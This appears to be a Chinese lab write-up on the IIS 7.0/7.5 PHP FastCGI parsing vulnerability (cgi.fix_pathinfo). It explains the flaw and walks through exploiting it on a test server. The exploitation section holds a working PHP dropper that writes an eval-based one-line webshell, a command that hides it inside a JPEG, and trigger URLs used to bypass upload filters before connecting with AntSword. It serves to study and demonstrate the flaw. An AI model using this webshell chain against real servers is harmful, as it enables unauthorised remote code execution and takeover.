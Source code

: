 # IIS7.0/7.5解析漏洞

> IIS7.0/7.5本身没有解析漏洞，但是当IIS通过[FastCGI](https://baike.baidu.com/item/FastCGI)解析PHP语言时，由于FastCGI配置中的cgi.fix_pathinfo默认为1（即开启状态），导致在对文件进行解析时形成解析漏洞，因此，IIS7.0/7.5解析漏洞实际上是PHP FastCGI解析漏洞

## 漏洞原理

> 如果IIS7.0/7.5通过FastCGI的方式支持PHP解析，当访问`http://172.16.16.24/index.jpg/xx.php`时，$fastcgi_script_name会被设置为 `index.jpg/xx.php`，如果开启cgi.fix_pathinfo，PHP会认为SCRIPT_FILENAME是`index.jpg`，而`xx.php`是PATH_INFO，所以就会将`index.jpg`作为PHP文件来进行解析，从而形成解析漏洞

:pencil:**Thinking**  

> 通过上传点，上传一个包含木马的任意格式的文件，在菜刀连接时或者解析时，在完整访问路径下添加`/*.php`（无论`*.php`文件是否存在），该文件就会以PHP的形式进行解析

## 测试环境

- **操作系统**：Windows Server 2008 R2
- **应用服务**：IIS 7.5
- **解析语言**：PHP 7.2.17
- **测试时间**：2019/4/25

## 测试过程

### 0x01 漏洞测试

> 在IIS服务器下上传一个phpinfo文件，并以`.doc`命名

```php
<?php phpinfo();?>
```

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

> 在浏览器中访问如下路径，以`.doc`命名的PHP文件正常解析

```http
http://172.16.16.24/a.doc/.php
```

![iis7.5_0002](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0002.PNG)

:pencil:**Thinking**  

> 此处对`.doc`、`.jpg`、`.txt`、`.asp`等格式的PHP文件进行了测试，均存在该解析漏洞

### 0x02 漏洞利用

> 通过上传点，上传一个图片木马，然后访问该图片木马，让其在本目录下生成一个shell.php，通过该方法可以绕过上传白名单检测，文件内容检测

**制作图片木马**

> 一张正常图片b.jpg和一个内容如下的a.txt

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

:pencil:**Thinking**  

> 该PHP的意义是：当该PHP文件解析时，会在相同目录下生成一个包含一句话木马的shell.php文件，其中写入的一句话木马可以根据实际环境进行修改。本实验采用的PHP版本大于7，在PHP7之后的版本，PHP语言做了更改，很多函数无法使用，所以PHP小于7的木马文件在本环境中很可能无法使用，并且菜刀在实现文件管理器的时候用的是assert函数，这导致菜刀没办法在PHP7上正常运行，由于蚁剑没有用到assert函数，所以本测试使用蚁剑作为一句话木马的文件管理器

> 使用cmd中的copy命令生成图片木马，将文本写入图片的二进制代码之后，避免破坏图片头和尾

```
copy b.jpg/b + a.txt/a ab.jpg
```

![iis7.5_0003](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0003.PNG)

**文件上传和解析**

> 把制作的图片木马上传至网站目录下，然后在浏览器中访问如下地址，会发现该图片木马正常解析，并在该图片相同目录下生成shell.php文件

```http
http://172.16.16.24/ab.jpg/.php
```

![iis7.5_0004](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0004.PNG)

![iis7.5_0005](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0005.PNG)

**蚁剑连接**

> 通过蚁剑连接shell.php，可以正常连接

![iis7.5_0006](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0006.PNG)

:pencil:**Thinking**  

> 以上漏洞利用方法，是通过解析图片生成一句话木马，这种方法是为了绕过上传检测。如果上传检测不严格，可以直接上传任意格式的PHP木马文件，在访问完整路径下加上`/.php`用蚁剑也能直接连接






























